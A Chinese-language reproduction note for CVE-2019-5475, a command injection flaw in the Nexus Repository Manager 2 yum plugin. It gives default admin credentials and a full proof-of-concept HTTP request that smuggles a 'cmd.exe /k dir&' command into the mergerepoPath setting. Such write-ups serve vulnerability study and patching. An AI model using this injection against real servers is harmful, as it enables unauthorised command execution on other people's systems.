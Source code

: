 ```yaml
---
title: "（CVE-2019-5475）Nexus2 yum插件RCE漏洞"
id: zhfly3039
---
```


# （CVE-2019-5475）Nexus2 yum插件RCE漏洞

## 一、漏洞简介

该漏洞默认存在部署权限账号，成功登录后可使用“createrepo”或“mergerepo”自定义配置，可触发远程命令执行漏洞

## 二、漏洞影响

Nexus Repository Manager OSS <= 2.14.13
Nexus Repository Manager Pro <= 2.14.13
限制：admin权限才可触发漏洞

## 三、复现过程

首先以管理员身份（admin/admin123）登录
然后找到漏洞位置：Capabilities - Yum:Configuration - Settings

![image](../img/8590877884662d4d3fc69224fb507594.png)

点击 Save 抓包，更改mergerepoPath后的value值

```
C:\\Windows\\System32\\cmd.exe /k dir& 
```

![image](../img/3e7535f6f94716328aadcec9855c5f75.png)

此处使用 /k 是因为这样命令执行完会保留进程不退出，而 /c 后执行完会退出；由于给用户提供的命令后面加了一个 --version，所以后面要加个&，&表两个命令同时执行，这样就不会干扰其他命令的执行

Poc如下：

```
PUT /nexus/service/siesta/capabilities/00012bdb034073a3 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: application/json,application/vnd.siesta-error-v1+json,application/vnd.siesta-validation-errors-v1+json
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Nexus-UI: true
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 241
DNT: 1
Connection: close
Referer: http://127.0.0.1:8081/nexus/
Cookie: NXSESSIONID=105c7cb1-a307-43a3-9ff8-9770b5ae3b13 `{“typeId”:“yum”,“enabled”:true,“properties”:[{“key”:“maxNumberParallelThreads”,“value”:“10”},{“key”:“createrepoPath”,“value”:“111”},{“key”:“mergerepoPath”,“value”:“C:\Windows\System32\cmd.exe /k dir&”}],“id”:“00012bdb034073a3”,“notes”:""}` 
```